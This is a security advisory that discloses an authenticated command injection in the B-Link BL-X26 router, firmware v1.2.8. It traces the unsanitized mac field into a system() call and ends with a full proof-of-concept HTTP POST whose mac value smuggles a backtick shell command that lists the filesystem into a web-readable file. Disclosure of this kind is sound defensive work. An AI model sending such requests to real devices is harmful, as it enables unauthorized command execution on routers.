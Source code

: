 ## **Basic Information**



- **Vendor:** B-Link
- **Vendor Website:** https://www.b-link.net.cn/
- **Affected Device Type:** Router
- **Affected Product:** BL-X26
- **Affected Product Version:** v1.2.8



## 1.Vulnerability Overview

B-Link X26 router V1.2.8 version has a command execution vulnerability. Triggering this vulnerability requires authorization. Once the attacker obtains authorization, he can trigger the vulnerability by sending a malicious HTTP POST request.

## 2.Vulnerability Details

Through IDA analysis, there is also a command execution vulnerability when the value is set_blacklist. It is located in the processing function sub_sub_45F6D4, where the mac address and enable fields are obtained and then passed to the bs_SetMacBlack function.

![](img/1.png)

This function is also encapsulated into the libshare-0.0.26.so library. The value obtained by v11 here is the mac address passed in at the beginning.

![](img/2.png)

Finally, the splicing entered the system function and executed the command

![](img/3.png)



## 3.POC

POST /goform/set_blacklist HTTP/1.1

Host: 192.168.16.1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36 Edg/139.0.0.0

Accept: application/json, text/javascript, */*; q=0.01

X-Requested-With: XMLHttpRequest

Referer: http://192.168.16.1/admin/more.html

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

Cookie: user=admin; platform=0

Connection: keep-alive

Content-Type: application/x-www-form-urlencoded

Content-Length: 43

mac=`ls -al / > /etc_ro/web/4.txt`&enable=1

![](img/4.png)

![](img/5.png)